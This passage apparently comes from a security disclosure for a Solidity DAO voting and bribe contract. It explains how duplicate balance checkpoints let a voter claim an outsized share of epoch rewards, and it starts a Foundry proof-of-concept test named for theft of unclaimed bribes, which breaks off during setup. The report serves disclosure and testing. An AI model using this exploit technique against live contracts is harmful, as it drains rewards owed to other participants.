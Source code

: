 ```solidity
  354:         if (_nCheckPoints > 0 && checkpoints[tokenId][_nCheckPoints - 1].timestamp == _timestamp) {
  355:             checkpoints[tokenId][_nCheckPoints - 1].balanceOf = balance;
  356:         } else {
@>357:             checkpoints[tokenId][_nCheckPoints] = Checkpoint(_timestamp, balance);
  358:             numCheckpoints[tokenId] = _nCheckPoints + 1;
  359:         }
  360:     }
```

Additionally, when `Voter::poke` is called, it saves another checkpoint only if it is invoked at a different timestamp than the checkpoint saved during the claim. Consequently, when `Bribe::earned` starts calculating based on the first checkpoint index after the last epoch, it iterates over both checkpoints, leading to potential discrepancies and unintended influences across epochs.

## Impact Details
1. **Economic Incentive Disruption**: By exploiting this vulnerability, a user can claim an outsized portion of the rewards pool, potentially leaving insufficient funds for other participants.
2. **Resource Drainage**: Continuous exploitation of this vulnerability could lead to significant resource drainage, reducing the overall effectiveness and sustainability of the DAO.



## Proof of concept
### Test Case (Foundry)
The provided test demonstrates how the manipulation of voting weights and reward claims can lead to disproportionate reward allocation. The test involves two participants, Alice and Bob, where Bob manipulates the system to claim full rewards for an epoch by strategically timing his votes and claims. This test is critical for illustrating the practical exploitability of the vulnerability under realistic conditions.

#### Test Execution:
The test can be added to a new file under the current test suite `src/test/VotingPoC.t.sol`, then specify the file name in `FILE` flag under `Makefile` configuration. Run using `make test_file`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingPoCTest is BaseTest {
    address public alice;
    address public bob;

    function setUp() public {
        setupContracts(block.timestamp);

        // Setup Alice and Bob addresses
        alice = vm.addr(uint256(keccak256(abi.encodePacked('Alice'))));
        vm.label(alice, 'Alice');
        bob = vm.addr(uint256(keccak256(abi.encodePacked('Bob'))));
        vm.label(alice, 'Bob');
    }

    function testTheftOfUnclaimedBribes() public {
        uint256 period = minter.activePeriod();
        hevm.warp(period + 1 days);

        uint256 aliceTokenId = createVeAlcx(alice, TOKEN_1, 1, true);
        uint256 bobTokenId = createVeAlcx(bob, TOKEN_1, 1, true);

        address bribeAddress = voter.bribes(address(sushiGauge));
```